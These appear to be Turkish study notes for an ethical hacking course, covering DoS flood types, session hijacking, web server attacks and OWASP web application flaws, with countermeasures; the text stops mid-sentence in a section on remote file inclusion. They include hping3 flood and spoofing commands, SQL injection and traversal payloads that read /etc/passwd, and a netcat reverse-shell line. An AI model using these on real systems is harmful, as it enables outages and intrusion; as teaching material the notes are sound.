**IP Parçalanması Saldırısı** 

• IP / ICMP parçalanma saldırısı, hacimsel DoS'un yaygın bir şeklidir. Böyle bir saldırıda, ağı boğmak için datagram parçalanma mekanizmaları kullanılır.  

• Hedefi parçalanmış paketlerle bombalar, tüm bu parçaları yeniden birleştirmek ve hedeflenen bir ağı ezmek için bellek kullanmasına neden olun. 

**• Farklı şekillerde açıklanabilir:** 

**o UDP Flood-** saldırgan çok sayıda kaynaktan büyük miktarda parça gönderir.  

**o UDP ve ICMP** parçalanma saldırısı - paketlerin yalnızca bazı kısımları hedefe gönderilir; Paketler sahte olduğundan ve yeniden birleştirilemediğinden, sunucunun kaynakları hızla tüketilir.  

**o TCP parçalanma saldırısı -** Gözyaşı saldırısı olarak da bilinir, TCP / IP yeniden birleştirme mekanizmalarını hedefler; Parçalanmış paketlerin yeniden birleştirilmesi engellenir. Sonuç olarak, veri paketleri çakışıyor ve hedeflenen sunucu tamamen boğuluyor. 

**TCP Durum Tükenmesi Saldırısı** 

• Aşağıdakiler gibi bağlantı durumu tablolarını kullanmaya çalışır: **Yük dengeleyiciler, güvenlik duvarları ve uygulama sunucuları.** 

**Slowloris Saldırısı** 

Kısmi HTTP istekleri kullanılarak çalışan bir uygulama katmanı saldırısıdır. Saldırı, hedeflenen bir Web sunucusuna bağlantılar açarak ve ardından bu bağlantıları olabildiğince uzun süre açık tutarak çalışır. 

 

• Saldırgan önce birden çok kısmi HTTP istek üstbilgisi göndererek hedeflenen sunucuya birden çok bağlantı açar.  

• Hedef gelen her istek için bir iş parçacığı açar  

• Hedefin bağlantıların zaman aşımına uğramasını önlemek için, saldırgan isteği canlı tutmak için hedefe düzenli aralıklarla kısmi istek üstbilgileri gönderir. Özünde, \"Hala buradayım! Sadece yavaşım, lütfen beni bekleyin.\"  

• Hedeflenen sunucu, isteğin sonlandırılmasını beklerken açık kısmi bağlantıların hiçbirini asla serbest bırakamaz.  

• Mevcut tüm iş parçacıkları kullanıma girdikten sonra, sunucu normal trafikten yapılan ek isteklere yanıt veremez ve bu da hizmet reddine neden olur. 

**SYN Saldırıları** 

• Binlerce SYN paketi gönderir  

• Yanlış kaynak adresi/sahte IP adresi kullanır.  

• Sunucu daha sonra bağlantı isteklerinin her birine yanıt verir ve yanıtı almaya hazır açık bir bağlantı noktası bırakır.  

• Sonunda tüm kaynakları devreye sokar ve makineyi tüketir. 

**SYN flood (yarı-açık saldırı)** 

• Binlerce SYN paketi gönderir.  

• Sunucu hiçbir zaman gelmeyecek olan son ACK paketini beklerken, saldırgan daha fazla SYN paketi göndermeye devam eder. Her yeni SYN paketinin gelmesi, sunucunun belirli bir süre için geçici olarak yeni bir açık bağlantı noktası bağlantısı sürdürmesine neden olur ve kullanılabilir tüm bağlantı noktaları kullanıldıktan sonra sunucu normal şekilde çalışamaz.  

• Sonunda bilgisayarı batırır, kaynaklar tükenir. 

 

**ICMP Flood** 

• ICMP Yankı paketlerini sahte bir adresle gönderir; sonunda gönderilen saniye başına paket sınırına ulaşır. 

o ICMP flood gerçekleştirmek için hping3 kullanmak mümkündür: 

▪ hping -1 --flood --rand-source <target> 

**Smurf Saldırısı** 

• Smurf saldırısı, hedeflenen kurbanın sahte kaynak IP'sine sahip çok sayıda ICMP paketinin bir IP yayın adresi kullanılarak bir bilgisayar ağına yayınlandığı dağıtılmış bir hizmet reddi saldırısıdır. 

o Bu saldırıyı gerçekleştirmek için hping3 ve subnet döngü yapmak için bash betiği kullanmak mümkündür. 

▪ hping3 -1 -c 1000 10.0.0.$i --fast –a <spoofed target> 

**Fraggle** 

• Smurt saldırısı ile aynı kavram, ancak UDP paketleri (UDP flood attack) ile.  

o Fraggle saldırısı / UDP taşması gerçekleştirmek için hping3 kullanmak mümkündür. 

▪ hping3 --flood --rand-source --udp –p <target> 

**Ping of Death** 

• ICMP mesajlarını parçalar; yeniden birleştirildikten sonra, ICMP paketi en büyük boyuttan daha büyüktür ve sistemi çökertir.  

o IP protokolünün izin verdiği 65.536 bayttan daha büyük bir IP paketi göndererek gerçekleştirir.  

o Eski sistemler tarafından kabul edilebilir bir eski tekniktir. 

**Teardrop** 

• Çok sayıda bozuk IP parçasını büyük boyutlu yüklerle üst üste bindirir; eski sistemlerin parça yeniden montajı nedeniyle çökmesine neden olur. 

**Peer to peer** 

• Eşler arası dosya paylaşım hub'ının istemcilerinin bağlantısı kesilir ve hedef sisteme bağlanmaya yönlendirilir. 

**Multi-Vektör Saldırı** 

• Volumetrik ve uygulama katmanı saldırılarının bir kombinasyonudur. 

**Phlashing / Kalıcı DoS** 

• Bir sistemde kalıcı hasara neden olan bir DoS saldırısı.  

• Ürün yazılımını değiştirir ve ayrıca **bir sistemin tuğla yapmasına** neden olabilir.  

• Örneğin: Kurbana sahte donanım güncellemesi göndermek; **BIOS çöküyor.** 

**LAND Saldırısı** 

• Hedefe aynı sahte IP'ye sahip bir SYN paketi gönderir; Savunmasızsa, hedef sonsuz döngü yapar ve çöker. 

**DoS/DDoS Saldırı Araçları:** 

• **Low Orbit Ion Cannon** (LOIC) - Bir hedefi TCP, UDP veya HTTP istekleriyle dolduran DDoS aracı. 

 

• **High Orbit Ion Cannon** (HOIC) - LOIC'nin daha güçlü versiyonu; TCP ve UDP'yi hedefler; Uygulama, aynı anda 256 adede kadar eşzamanlı saldırı oturumu açabilir ve meşru istekler artık işlenemeyene kadar sürekli bir gereksiz trafik akışı göndererek hedef sistemi çökertebilir; 

 

• **Diğer Araçlar:**  

o HULK  

o Metasploit  

o Nmap  

o Tsunami  

o Trinity - Linux based DDoS tool  

o Tribe Flood Network - uses voluntary botnet systems to launch massive flood attacks  

o RUDY (R-U-Dead-Yet?) - DoS with HTTP POST via long-form field submissions 

**Azaltıcı Etkenler**  

• Trafik analizi  

• Filtreleme  

• Güvenlik Duvarları  

• ACL'ler  

• Reverse Proxy'ler • Hız sınırlama - tek bir IP adresinin yapmasına izin verilen maksimum bağlantı sayısını sınırlama)  

• Yük dengeleyiciler  

• DoS önleme yazılımı 

**9.Session Hijacking** 

Oturum Ele Geçirme saldırısı, normalde bir oturum belirteci için yönetilen web oturumu denetim mekanizmasından yararlanılmasından oluşur. 

• HTTP iletişimi birçok farklı TCP bağlantısı kullanır, web sunucusu her kullanıcının bağlantılarını tanımak için bir yönteme ihtiyaç duyar.  

• En kullanışlı yöntem, başarılı bir istemci kimlik doğrulamasından sonra Web Sunucusunun istemci tarayıcısına gönderdiği belirtece bağlıdır.  

` `• Bir oturum belirteci normalde değişken genişlikte bir dizeden oluşur ve farklı şekillerde kullanılabilir. 

o URL'de, tanımlama bilgisi olarak HTTP talebinin başlığında, HTTP isteğinin üstbilgisinin diğer bölümlerinde veya HTTP talebinin gövdesinde olduğu gibi. 

**Oturum Ele Geçirme saldırısı, Web Sunucusuna yetkisiz erişim elde etmek için geçerli bir oturum belirtecini çalarak veya öngörerek oturum belirtecinin güvenliğini tehlikeye atar.** 

**Session token farklı şekillerde tehlikeye girebilir; en yaygın olanları şunlardır:** 

**Predictable session token** 

• Belirli bir uygulamanın oturum kimliği bilgileri normalde sabit genişlikte bir dizeden oluşur. Rastgelelik, tahmininden kaçınmak için çok önemlidir. 

**o Örnek:** Oturum kimliği değeri, kullanıcı adına karşılık gelen \"user01\" değeridir. Bunun için \"user02\" gibi yeni değerler deneyerek, önceden kimlik doğrulaması olmadan uygulamanın içine girmek mümkün olabilir. 

**Session Sniffing (Oturum Koklama)** 

• Sniffing, web sunucusu ile kullanıcı arasında şifrelenmemiş iletişim olduğunda ve oturum kimliği düz metin olarak gönderildiğinde bir oturumu ele geçirmek için kullanılabilir. 

o **Wireshark** ve **Kismet**, ağdan oturum kimliği gibi hassas veri paketlerini yakalamak için kullanılabilir. 

**Cross-site Scipting (XSS)** 

• Bir sunucu, bir saldırganın kullanıcı tarafından kötü amaçlı kod yürüterek oturum bilgilerini toplamasına olanak tanıyan siteler arası komut dosyası çalıştırma açığından etkilenebilir. Bir saldırgan, kurbanın tarayıcısını hedefleyebilir ve kullanıcı tarafından açıldığında kötü amaçlı kodu tarayıcı ele geçirme oturumlarında çalıştıran komut dosyası JavaScript bağlantısı gönderebilir. 

**CSRF – Cross-Site Request Forgery** 

• Son kullanıcıyı, şu anda kimliğinin doğrulandığı bir web uygulamasında istenmeyen eylemler gerçekleştirmeye zorlar. Sosyal mühendisliğin küçük bir yardımıyla (e-posta veya sohbet yoluyla bir bağlantı göndermek gibi), bir saldırgan bir web uygulamasının kullanıcılarını saldırganın seçtiği eylemleri gerçekleştirmeleri için kandırabilir; 

• CSRF saldırısı, kullanıcıyı para transferi, e-posta adresini değiştirme gibi durum değiştirme isteklerini gerçekleştirmeye zorlayabilir. Kurban bir yönetici hesabıysa, CSRF tüm web uygulamasını tehlikeye atabilir**.** 

**• CSRF Senaryosu:** 

i. Bankanızın sitesini ziyaret edin, giriş yapın.  

ii. Ardından saldırganın sitesini ziyaret edin (ör. güvenilmeyen bir kuruluşun sponsorlu reklamı).  

iii. Saldırganın sayfası, bankanın 'Para Transferi' formuyla aynı alanlara sahip bir form içerir.  

iv. Hesabınızdan saldırganın hesabına para aktarmak için form alanları önceden doldurulmuştur.  

v. Saldırganın sayfasında bankanıza form gönderen Javascript bulunur.  

vi. Form gönderildiğinde, tarayıcı, oturum belirteci de dahil olmak üzere banka sitesi için çerezlerinizi içerir.  

vii. Banka, saldırganın hesabına para aktarır.  

viii. Form görünmez bir iframe'de olabilir, bu nedenle saldırının gerçekleştiğini asla bilemezsiniz. 

**Session Fixation (Oturum Sabitleme)** 

• Oturum Sabitleme, bir saldırganın geçerli bir kullanıcı oturumunu ele geçirmesine izin veren bir saldırıdır. Saldırı, web uygulamasının oturum kimliğini, özellikle de güvenlik açığından etkilenen web uygulamasını yönetme biçimindeki bir sınırlamayı araştırıyor. 

• **Session Fixation Senaryosu:** 

i. Saldırgan web uygulaması **oturum açma sayfasına erişir** ve web uygulaması tarafından oluşturulan bir oturum kimliği alır.  

ii. Saldırgan, **CRLF Enjeksiyonu, ortadaki adam saldırısı, sosyal mühendislik** vb. gibi ek bir teknik kullanır ve kurbanın sağlanan **oturum tanımlayıcısını kullanmasını sağlar**.  

iii. Mağdur, web uygulaması oturum açma sayfasına erişir ve uygulamada oturum açar. Kimlik doğrulaması yapıldıktan sonra, **web uygulaması bu oturum kimliğini kullanan herkese bu kullanıcıymış gibi davranır.**  

iv. Saldırgan, web uygulamasına erişmek, **kullanıcı oturumunu devralmak ve kurbanın kimliğine bürünmek için oturum kimliğini kullanır.** 

**Man-in-the-browser attack (Tarayıcıdaki Adam Saldırısı)** 

• Tarayıcıdaki Adam saldırısı, Ortadaki Adam saldırısıyla aynı yaklaşımdır, ancak bu durumda ana uygulamanın yürütülebilir dosyası arasındaki çağrıları engellemek ve işlemek için bir Truva Atı kullanılır. 

**Man-in-the-middle attack (Ortadaki Adam Saldırısı)** 

• MITM saldırısı, bir failin kendisini bir kullanıcı ile bir uygulama arasındaki bir konuşmada konumlandırdığı zaman için kullanılan genel bir terimdir - taraflardan birini gizlice dinlemek veya taklit etmek, normal bir bilgi alışverişi devam ediyormuş gibi görünmesini sağlamak. 

**Diğer Saldırılar** 

**• Compression Ratio Info-leak Made Easy (CRIME):** 

o Veri sıkıştırma kullanan HTTPS ve SPDY protokollerini kullanan bağlantılar üzerinden gizli web çerezlerine karşı bir güvenlik açığıdır. Gizli kimlik doğrulama tanımlama bilgilerinin içeriğini kurtarmak için kullanıldığında, saldırganın oturum ele geçirme işlemi gerçekleştirmesine izin verir. 

• **BREACH:** 

o HTTP sıkıştırması (SSL/TLS sıkıştırması) kullanılırken HTTPS'ye karşı bir güvenlik açığıdır. BREACH CRIME güvenlik istismarına dayanarak oluşturulmuştur. 

**“SPDY protokolü, web sayfası yükleme gecikmesini azaltmak ve web güvenliğini artırmak için özel hedeflerle HTTP trafiğini manipüle eder.”** 

• TLS'de, veriler şifrelendiğinde aynı cryptographic nonce yanlış bir şekilde yeniden kullanan Forbiden Saldırısı Güvenlik Açığı. TLS belirtimleri, bu rastgele veri parçalarının yalnızca bir kez kullanılması gerektiği konusunda açıktır. Aynı şey birden fazla kez kullanıldığında, yasak saldırıyı gerçekleştirme fırsatı sunar. (Burayı tam çevirememiş olabilirim 🙁 

**Network Katmanı Saldırıları** 

**• TCP Hijacking:** TCP/IP Ele Geçirme, yetkili bir kullanıcının başka bir kullanıcının orijinal ağ bağlantısına erişmesidir. Normalde bir oturumun başlangıcı olan parola kimlik doğrulamasını atlamak için yapılır. 

**Araçlar** 

**• Ettercap** - MiTM tool and packet sniffer on steroids  

• **Hunt** - sniff, hijack and reset connections  

• **T-Sight** - easily hijack sessions and monitor network connections  

• **Zaproxy**  

• **Burp Suite**  

**• Paros** 

**• Shijack -** TCP/IP hijack tools  

• **Juggernaut**  

• **Hamster**  

• **Ferret** 

**Karşı önlemler** 

• Oturum Kimlikleri  

o Öngörülemeyen (rastgele) Oturum Kimlikleri Kullanın 

o Oturum Kimlikleriyle URL'leri Asla Kullanmayın  

o Oturum Kimliklerini Yeniden Kullanmayın 

• XSS'yi (Siteler Arası Komut Dosyası) Engelleyen Çerezlerde Yalnızca HTTP Kullanın  

• Şifreleme olmadan HTTP protokolü kullanmayın --> TLS/SSL KULLAN [HTTPS]  

• Gelen bağlantıları sınırlama  

• Uzaktan erişimi en aza indirme  

• Kimlik doğrulamadan sonra oturum anahtarının yeniden oluşturulması  

• Zaman - mutlak / etkin değil (örneğin: 1 saatlik hareketsizlik kullanıcı otomatik olarak oturumu kapatır)  

• **MFA'yı** kullanın  

• **Şifrelemek için IPSec'i** kullanın 

**IPSec** 

• **Transport Mode** – payload ve ESP trailer şifrelenir; IP başlığı değil  

• **Tunnel Mode** - her şey şifrelenir; NAT ile kullanılamaz.  

• **Mimari Protokolleri** 

` `**o Kimlik Doğrulama Üstbilgisi** - IP paket gönderenin bütünlüğünü ve kimlik doğrulamasını garanti eder. 

**o Kapsüllenen Güvenlik Yükü** (ESP) - kaynak özgünlüğü ve bütünlüğünün yanı sıra gizlilik sağlar. 

**o Oakley –** master ve session anahtarları oluşturmak için Diffie-Hellman'ı kullanır. 

**o Internet Security Association Key Management Protocol** (ISAKMP) - iki uç nokta arasında şifreli iletişimi kolaylaştıran yazılım. 

**10. Hacking Web Servers**  **(Web Sunucularını Hackleme)** 

**Web Sunucusu Saldırısı Metodolojisi** 

**• Bilgi Toplama -** İnternet aramaları, whois, robots.txt gözden geçirme..  

**• Web Sunucusu Ayak İzi Sürme -** banner grabbing.. 

**o Araçlar** 

▪ Netcraft  

▪ HTTPRecon  

▪ theHarvester  

▪ ID Serve  

▪ HTTPrint  

▪ nmap 

▪ nmap --script http-trace -p80 localhost  

▪ Detects vulnerable TRACE method  

▪ nmap --script http-google-email <host> 

▪ Lists email addresses  

▪ nmap --script hostmap-\*  <host> 

▪ Discovers virtual hosts on the IP address you are trying to footprint; \* is replaced by online db such as IP2Hosts  

▪ nmap --script http-enum -p80 <host> 

▪ Enumerates common web apps  

▪ nmap --script http-robots.txt -p 80 <host> 

▪ Grabs the robots.txt file 

• **Website Monitoring** - yapıyı incelemek için siteyi kendi makinenize getirir, vb. 

**o Araçlar** 

▪ Wget  

▪ BlackWidow  

▪ HTTrack  

▪ WebCopier Pro  

▪ Web Ripper  

▪ SurfOffline 

**• Güvenlik Açığı Taraması -** web sunucusunu güvenlik açıklarına karşı tarar  

**o Araçlar** 

▪ Nessus  

▪ Nikto - özellikle web sunucuları için uygundur; hala Nessus gibi çok dikkat çeker. 

**• Session Hijacking**  

**• Web Server Password Cracking** 

**Web Server Mimarisi** 

• En Popüler Sunucular - Apache, Microsoft IIS ve Nginx  

o Apache, yapılandırmaları özel dosyalar içindeki bir modülün parçası olarak çalıştırır (http.conf, vb.)  

o IIS, tüm uygulamaları LOCAL\_SYSTEM bağlamında çalıştırır  

o IIS 5'te bir ton hata var. - içine girmesi kolay 

• **N-Katmanlı Mimari** - süreçleri birden fazla sunucuya dağıtır; normalde üç katmanlı olarak: Sunum (web), mantık (uygulama) ve veri (veritabanı) 

**• Hata Raporlama -** üretimdeki hataları göstermemelidir; bilgi toplamak kolaydır. 

**• HTML -** web sayfalarını görüntülemek için kullanılan biçimlendirme dili. 

**• HTTP İstek Yöntemleri**  

**o GET -** URL'de ne varsa onu alır; veri gönderme işlemi URL'de yapılır  

**o HEAD -** - identical to get except for no body return 

**o POST -** gövde üzerinden veri gönderir - URL'de veya tarihte gösterilmeyen veriler  

**o PUT -** istek verileri URL'de saklanır  

**o DELETE-** requests origin server delete resource 

**o TRACE -** requests application layer loopback of message  

**o CONNECT -** proxy ile kullanılmak üzere ayrılmış  

o Hem POST hem de GET bir web proxy'si tarafından manipüle edilebilir. 

**• HTTP Hata İletileri**  

**o 1xx: Bilgi -** istek alındı, devam ediyor  

**o 2xx: Başarılı -** eylem alındı, anlaşıldı ve kabul edildi  

**o 3xx: Yeniden yönlendirme -** daha fazla eylem yapılmalıdır  

**o 4xx: İstemci Hatası -** istek bad syntax içeriyor veya istek yerine getirilemiyor  

**o 5xx: Sunucu Hatası -** sunucu görünüşte geçerli bir isteği yerine getiremedi 

**Web Server Saldırıları** 

**• DNS Amplifikasyonu -** Bir hedefi DoS yapmak için özyinelemeli DNS kullanır; DNS yanıtlarını hiçbir şey yapamayana kadar hedefe genişletir. 

• **Directory Transversal** (../ veya nokta-nokta-eğik çizgi) - web sunucusundan erişilememesi gereken istek dosyası. 

o Örneğin: [**http://www.example.com/../../../../etc/password**](http://www.example.com/etc/password) 

**• Parametre Kurcalama** (URL Kurcalama) - yetki yükseltme veya diğer değişiklikleri elde etmek için URL içindeki parametreleri değiştirme. 

**• Gizli Alan Kurcalama** - İstenmeyen sonuçlar üreten gizli form alanlarını değiştirme. 

**• HTTP Yanıt Bölme -** Bir saldırgan, HTTP yanıt üstbilgisi aracılığıyla güvenlik açığından etkilenen bir uygulamaya kötü amaçlı veriler geçirir.  

**• Web Önbelleği Zehirlenmesi -** Bir kutudaki önbelleğin kötü amaçlı bir sürümüyle değiştirilmesi.  

**• WFETCH -** Yanıt verilerini görmek için HTTP istekleri oluşturmanıza olanak tanıyan Microsoft aracı.  

**• Yanlış Yapılandırma Saldırısı -** Öncekiyle aynı - bir web sunucusunun yanlış yapılandırılması. (ör. yönetici/şifre kimlik bilgileri gibi varsayılan ayarlar; Güvenlik kontrollerinin eksikliği)  

**• Parola Saldırısı -** Web kaynaklarıyla ilgili parolaları kırmaya çalışmak.  

**• Bağlantı Dizesi Parametre Kirliliği -** Bu ayırma yöntemini kullanan veritabanlarından yararlanmak için noktalı virgül kullanan enjeksiyon saldırısı.  

**• Web Tahrifatı -** Bir web sayfasını başka bir şey söylemek için basitçe değiştirmek . 

• **DoS/DDoS -** Kullanılabilirliği tehlikeye atmak. 

**• Shellshock -** Komutlar işlev tanımlarının sonunda birleştirildiğinde Bash'in istemeden komut yürütmesine neden olur. 

• Araçlar  

**o Brutus -** brute force web passwords of HTTP  

**o Hydra -** network login cracker  

**o Metasploit**  

▪ Basic working is Libraries use Interfaces and Modules to send attacks to services  

▪ **Exploits** hold the actual exploit  

▪ **Payload** contains the arbitrary code if exploit is successful  

▪ **Auxiliary** used for one-off actions (like a scan)  

▪ **NOPS** used for buffer-overflow type operations 

**11.Hacking Web Applications (Web Uygulamalarını Hackleme)** 

**Web Organizasyonları** 

**• Internet Engineering Task Force (IETF) -** İnternetin daha iyi çalışmasına yardımcı olmak için mühendislik belgeleri oluşturur.  

**• World Wide Web Konsorsiyumu (W3C) -** Standartları geliştiren bir topluluk.  

• **Açık Web Uygulaması Güvenlik Projesi (OWASP) -** Yazılımın güvenliğini artırmaya odaklanan kuruluş. 

**OWASP Web Top 10** 

OWASP Top 10, geliştiriciler ve web uygulaması güvenliği için standart bir farkındalık belgesidir. Web uygulamaları için en kritik güvenlik riskleri hakkında geniş bir fikir birliğini temsil eder. 

**• A1 - Enjeksiyon Kusurları** - SQL, İşletim Sistemi ve LDAP enjeksiyonu.  

**• A2 - Bozuk Kimlik Doğrulama ve Oturum Yönetimi -** doğru şekilde uygulanmayan kimlik doğrulama ve oturum yönetimi ile ilgili işlevler.  

**• A3 - Hassas Verilere Maruz Kalma** - hassas verileri (SSN, CC numaraları, vb.) düzgün şekilde korumama.  

**• A4 - XML Harici Varlıkları (XXE)** - Bir XML belgesine düşmanca içerik yükleyerek XML işlemcilerinden yararlanma.  

**• A5 - Bozuk Erişim Kontrolü** - korunması gereken alanlarda uygunsuz kontrollere sahip olma. 

**• A6 - Güvenlik Yanlış Yapılandırması** - sunucunun ve uygulamanın tüm bölümlerinde. 

• **A7 - Siteler Arası Komut Dosyası Çalıştırma (XSS)** - güvenilmeyen verileri alma ve giriş doğrulaması olmadan gönderme.  

• **A8 - Güvenli Olmayan Şekilde Seri Durumdan Çıkarma -** Verileri yanlış bir şekilde seri durumdan çıkarma.  

**• A9 - Bilinen Güvenlik Açıklarına Sahip Bileşenleri Kullanma -** bilinen güvenlik açıklarına sahip kitaplıklar ve çerçeveler.  

**• A10 - Yetersiz Logging ve Monitoring -** saldırıları algılamak için yeterli loga sahip olmama. 

**WebGoat -** project maintained by OWASP which is an insecure web application meant to be tested. 

**Web Uygulama Saldırıları** 

• Çoğu zaman programda yer alan doğal zayıflıklardan daha önce hacklenir.  

• İlk adım, giriş noktalarını (POST verileri, URL parametreleri, çerezler, başlıklar vb.) tanımlamaktır.  

**• Giriş Noktalarını Tanımlamak için Araçlar:** 

o WebScarab  

o HTTPPrint  

o BurpSuite 

**• Web 2.0 -** dinamik uygulamalar; eşzamanlı iletişim sayesinde daha büyük bir saldırı yüzeyine sahiptir. 

**SQL Injection** 

Çıktı üretmek için giriş alanlarına SQL komutları enjekte eder.  

**• Veri İşleme** - Tanım (DDL), manipülasyon (DML) ve denetim (DCL) 

` `SQL enjeksiyonu genellikle bir kullanıcıdan kullanıcı adı/kullanıcı kimliği gibi giriş istediğinizde gerçekleşir ve bir ad/kimlik yerine, kullanıcı size veritabanınızda bilmeden çalıştıracağınız bir SQL deyimi verir. 

• **SQL için kullanılır:** 

o Bypass authentication  

o Extract information  

o Insert injection 

 

**SQL Injection in action:** 

• UserId giriş alanına şunları girebilirsiniz: 

o 105 OR 1=1. 

• Geçerlidir ve yalnızca UserId 105'i döndürmez, bu enjeksiyon 'Kullanıcılar' tablosundaki ALL satırları döndürür, çünkü OR 1 = 1 her zaman TRUE olur. Ardından, SQL deyimi şöyle görünür: 

o SELECT \* FROM Users WHERE UserId = 105 OR 1=1; 

• Çift tire ( -- ) sunucuya sorgunun geri kalanını yoksaymasını söyler. 

**SQL enjeksiyonunun mümkün olup olmadığını görmek için temel kontrol sadece tek bir tırnak eklemektir ( ' )** 

• Giriş alanında veya URL'de olabilir.  

• Bu, web uygulamasının SQL sorguları enjekte edebileceğiniz anlamına gelen bir SQL sözdizimi hatası döndürmesini sağlar. 

**Bypassing authentication: (Kimlik doğrulamasını atlama)** 

• admin' or 1=1 -- 

o Temel olarak sunucuya giriş ve çift tire izin vermek için 1 = 1 (her zaman doğru) olup olmadığını söyler. Bu durumda sorgunun geri kalanı, şifreyi yorumlayacaktır. 

• variations: 1' or 1=1 # 

• Based on = is always true;  

o " or ""=" --> Yukarıdaki SQL geçerlidir ve 'Users' tablosundaki tüm satırları döndürür, since OR ""="" is always TRUE 

o This is valid and the SQL statement behind will look like this: SELECT \* FROM Users WHERE Name ="John Doe" AND Pass ="myPass" 

**Numaralandırma:**  

• 1' union all select 1,user() #  

o The service are running as  

• user' UNION ALL select 1,table\_name,3,4,5 FROM information\_schema.tables  

o Dropping the tables 

**Dosya okuma/yükleme:**  

• bob' union all select 1,load\_file("/etc/passwd"),3,4,5 --  

o Reading the /etc/passwd file 

**Dosya yazma:**  

• bob' union all select 1,"Test",3,4,5 into outfile '/tmp/test.txt'-- 

o Seçili satırları bir dosyaya yazar. Belirli bir çıktı formatı üretmek için sütun ve satır sonlandırıcıları belirtilebilir. 

**Fuzzing**- ne olacağını görmek için bir hedefe rastgele veri girme. 

**Tautology** – SQL'i test etmek için her zaman doğru ifadeler kullanır. (ör. 1=1) 

**Bant içi SQL ekleme -** saldırı gerçekleştirmek için aynı iletişim kanalını kullanır. 

• Genellikle çekilen verilerin dışa aktarılan verilere sığabileceği zamandır. (verilerin bir web tablosuna gittiği yer)  

• UNION sorgularını kullanmak için en iyisi. 

**Bant dışı SQL enjeksiyonu** - farklı iletişim kanalları kullanır. (ör. sonuçları web sunucusunda dosyaya aktarma) 

**Blind/inferential** - hata mesajları ve ekran dönüşleri oluşmaz; genellikle komutun işe yarayıp yaramadığını tahmin etmek veya bilmek için zamanlamayı kullanmak zorundadır. 

• **SQL Araçları:**  

o Sqlmap  

o sqlninja  

o Havij  

o SQLBrute  

o Pangolin  

o SQLExec  

o Absinthe  

o BobCat 

**Broken Authentication (Bozuk Kimlik Doğrulama)** 

Bozuk Kimlik Doğrulama genellikle uygulamanın kimlik doğrulama mekanizmasıyla ilgili sorunlar nedeniyle oluşur; 

**• Kimlik Bilgisi Doldurma ve Kaba Kuvvet Saldırıları**  

**• Zayıf Parolalar \* Kurtarma Süreci**  

**• Oturum Kimliğinin Yanlış Yönetimi** 

Saldırgan, sistemdeki kullanıcı hesaplarının denetimini ele geçirebilir. En kötü durumda, sistem üzerinde tam kontrol sahibi olmalarına yardımcı olabilir. 

**Komut Enjeksiyonu** 

Güvenlik açığı bulunan bir uygulama aracılığıyla ana bilgisayar işletim sisteminde rastgele 

komutların çalıştırılması. 

· Bir uygulama, güvenli olmayan kullanıcı tarafından sağlanan verileri bir sistem kabuğuna 

geçirdiğinde enjeksiyon mümkündür. 

· Enjeksiyon, bir uygulama kullanıcı tarafından sağlanan güvenli olmayan verileri bir 

sistem kabuğuna aktardığında mümkündür. 

· Web uygulamalarının bazen altta yatan ana işletim sistemi ve dosya sistemi ile iletişim 

kurmak için işletim sistemi komutlarını çalıştırması gerekir. Bu, sistem komutlarını 

çalıştırmak, başka bir programlama dilinde yazılmış uygulamaları başlatmak veya kabuk, 

python, perl veya PHP komut dosyalarını çalıştırmak için yapılabilir. 

Örnek: 

\- Bir kullanıcı girdisinden sistemin ping komutuna bir IP adresi ileten ortak bir işleve sahip 

savunmasız bir uygulama düşünün. 

\- Kullanıcı girişi: 127.0.0.1 

\- Aşağıdaki komut ana bilgisayar işletim sisteminde çalıştırılır: 

ping -c 5 127.0.0.1 

\- Saldırgan rastgele çalıştırmak için ping komutunu kırmak mümkün mü komutlar: 

ping -c 5 127.0.0.1; id 

\- Sistem savunmasızsa çıktı şu şekilde görünecektir (iki işletim sistemi gösteriliyor komutları, 

ping ve id): 

--- 127.0.0.1 ping statistics --- 

5 packets transmitted, 5 received, 0% packet loss, time 3999ms 

rtt min/avg/max/mdev = 0.023/0.056/0.074/0.021 ms 

uid=0(root) gid=0(root) groups=0(root) 

-Girdi sanitizasyonu olmadan saldırgan ters kabuk yapabilir: 

127.0.0.1; nc -nv &lt;saldırganın IP&#39;si&gt; 4444 -e /bin/bash 

Hassas Verilere Maruz Kalma 

Web uygulaması oturum belirteçleri, parolalar, bankacılık bilgileri, konum, sağlık verileri veya 

sızıntısı kullanıcı için kritik olabilecek diğer benzer önemli veriler gibi hassas bilgileri yeterince 

korumadığında. 

Örnekler: 

\1. Bir uygulama kredi kartı numaralarını şifrelemeden bir veri tabanında saklıyor. Bir saldırgan 

SQL enjeksiyonu yoluyla veri tabanına erişirse, kredi kartı numaralarını kolayca alabilir. 

\2. Bir uygulama şifreleri veri tabanında tuzlanmamış veya basit karmalar kullanarak saklar. Bir 

saldırgan Gökkuşağı Tablosu saldırılarını kullanarak tuzlanmamış karmaları açığa çıkarabilir. 

\3. TLS uygulamayan veya zayıf şifreleme kullanan bir web sitesi. Bir saldırgan ağ trafiğini 

izleyebilir ve bağlantıları HTTPS&#39;den HTTP&#39;ye düşürebilir. Ardından, istekleri engelleyebilir ve 

kullanıcının oturum çerezini çalabilirler 

XEE - XML Dış Varlıkları 

XML girdisini ayrıştıran bir uygulamaya yönelik bir saldırı türüdür. Bu saldırı, harici bir varlığa 

referans içeren XML girdisi zayıf yapılandırılmış bir XML ayrıştırıcı tarafından işlendiğinde ortaya 

çıkar. 

\- Saldırganlar, özel olarak hazırlanmış DOCTYPE tanımlarına sahip XML dosyalarını zayıf bir 

güvenlik yapılandırmasına sahip bir XML ayrıştırıcıya sağlayarak yol geçişi, bağlantı noktası 

taraması ve hizmet reddi, sunucu tarafı istek sahteciliği (SSRF) ve hatta uzaktan kod yürütme 

dahil olmak üzere çok sayıda saldırı gerçekleştirebilir. 

Örnek: 

· Harici varlıklar, yerel dosyalardan içerik almak için URI&#39;lere veya ağ kaynaklarına 

başvurabilir. 

· Bu yük, hedef sistemin işletim sistemindeki /etc/passwd dosyasının içeriğini 

döndürecektir; (Windows için referans alabilirsiniz; [file:///c:/boot.ini](c:/boot.ini) ) 

RFI - Uzaktan Dosya Ekleme 

Saldırganın web sunucusuna uzaktan barındırılan bir dosyayı dahil etmek için bir komut 

dosyası kullanmasına izin veren bir yöntemdir. RFI&#39;yi teşvik eden güvenlik açığı büyük 

ölçüde PHP ile çalışan web sitelerinde bulunur. Bunun nedeni, PHP&#39;nin bir komut dosyası 

içinde ek dosyaları &#39;dahil etme&#39; veya &#39;gerektirme&#39; yeteneğini desteklemesidir; 

Güvenlik Açığı olan PHP örneği: 

$incfile = $\_REQUEST[&quot;file&quot;]; include($incfile.&quot;.php&quot;); 

\* İlk satır HTTP isteğinden dosya parametresi değerini çıkarırken, ikinci satır bu değeri dosya 

adını dinamik olarak ayarlamak için kullanır, dosya parametresi değerinin uygun bir şekilde 

